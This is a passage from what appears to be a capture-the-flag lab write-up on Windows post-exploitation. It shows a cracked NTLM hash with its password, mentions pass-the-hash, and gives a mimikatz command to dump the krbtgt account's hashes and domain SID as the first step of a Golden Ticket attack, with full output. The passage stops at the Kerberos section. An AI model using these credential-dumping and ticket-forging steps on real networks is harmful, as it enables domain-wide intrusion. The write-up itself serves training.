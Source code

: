 ```bash
2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd
```

> **Note**: Cracking these hashes are note necessary if we can perform a Pass-The-Hash attack. 

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/dumping-hashes-answers.png)

___

### Golden Ticket 

We will first dump the hash and sid of the **krbtgt** user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

#### Dump hash and sid of krbtgt

- `lsadump::lsa /inject /name:krbtgt` &rarr; dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
```